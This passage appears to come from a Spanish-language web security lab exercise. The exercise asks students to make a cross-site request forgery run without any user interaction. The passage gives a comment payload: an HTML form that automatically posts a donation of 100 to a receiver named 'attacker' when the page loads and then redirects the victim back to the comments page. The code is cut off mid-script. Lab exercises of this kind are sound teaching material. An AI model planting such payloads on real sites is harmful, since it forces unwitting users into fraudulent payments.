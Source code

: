 ![Untitled](img/6.png)

b) Una vez lo tenéis terminado, pensáis que la eficacia de este ataque aumentaría si no necesitara que elusuario pulse un botón.Con este objetivo, cread un comentario que sirva vuestros propósitos sin levantar ninguna sospecha entre los usuarios que consulten los comentarios sobre un jugador (show_comments.php)

Comentario a introducir:

```
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <title>Comentario</title>
</head>
<body>
    <h1>Bienvenido</h1>
    <form id="donationForm" method="POST" action="http://web.pagos/donate.php?amount=100&receiver=attacker">
        <input type="hidden" name="comment" value="<?php echo 'Este es un comentario'; ?>">
    </form>
    <script>
        window.onload = function() {
            document.getElementById('donationForm').submit();
            setTimeout(function() {
                window.location.href = "show_comments.php?id=<?php echo $row['playerid']; ?>";
```